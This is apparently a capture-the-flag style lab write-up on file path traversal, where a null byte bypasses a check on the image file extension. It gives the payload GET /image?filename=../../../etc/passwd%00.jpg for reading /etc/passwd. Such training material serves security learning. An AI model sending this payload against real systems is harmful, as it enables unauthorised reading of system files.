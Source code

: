 # File path traversal, validation of file extension with null byte bypass

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application validates that the supplied filename ends with the expected file extension.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### Note: =========> Null Byte Injection is an active exploitation technique used to bypass sanity checking filters in web infrastructure by adding URL-encoded null byte characters (i.e. %00, or 0x00 in hex) to the user-supplied data.

---

### step 1

GET /image?filename=21.jpg HTTP/1.1

### step2

GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
